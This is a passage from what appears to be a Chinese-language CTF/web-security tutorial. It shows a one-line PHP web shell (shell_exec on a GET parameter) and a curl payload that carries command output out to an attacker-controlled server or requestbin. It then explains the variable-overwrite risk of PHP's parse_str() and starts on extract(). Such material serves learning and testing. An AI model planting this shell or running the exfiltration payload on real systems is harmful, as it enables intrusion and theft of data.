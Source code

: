 这里咱们写一下怎么使用`CURL`带出命令的执行结果。

我们在被攻击机器上写一个无回显的命令执行脚本`shell.php`：

    <?php
        shell_exec($_GET[1]);

此时我们可以用`http://xxx/shell.php?1=`的方式执行任意无回显的命令。

用`CURL`命令怎么让结果显示出来捏？

先上`payload`：

    ?1=curl http://yyy?p=<code>pwd</code>

说明一下，`http://yyy`是我们自己的服务器，需要能看到日志，没有的话可以用[这个](https://requestbin.net/)。

`payload`里面的那个`p`随便什么都可以。

传入这个`payload`后，在`php`里会先执行反引号包裹的`pwd`，这样假如说当前路径是`/app`，那么`curl`其实真正访问的是：

    curl http://yyy?p=/app

这样我们查看被访问机器里面的日志，就可以看到结果了。

![image-20221011155322021](202210111553378.png)

这里需要注意，带入的数据长度是有限的。因此可以采取`grep`到关键数据或者限定长度的方式来带出数据。

## parse_str()

    parse_str(string $string, array &$result): void
    // 如果 string 是 URL 传递入的查询字符串（query string），则将它解析为变量并设置到当前作用域（如果提供了 result 则会设置到该数组里 ）。从PHP8.0开始，$result参数是强制的。

示例：

    <?php
    $str = "first=value&arr[]=foo+bar&arr[]=baz";
    // 注意，不需要带引号什么的

    // 带第二个参数，推荐
    parse_str($str, $output);
    echo $output['first'];  // value
    echo $output['arr'][0]; // foo bar
    echo $output['arr'][1]; // baz

    // 不带第二个参数，容易被攻击
    parse_str($str);
    echo $first;  // value
    echo $arr[0]; // foo bar
    echo $arr[1]; // baz
    ?>

## extract()

一般情况下，将数组以键值对的方式进行变量的注册，键值对的键为变量名，键值对的值为变量的值。
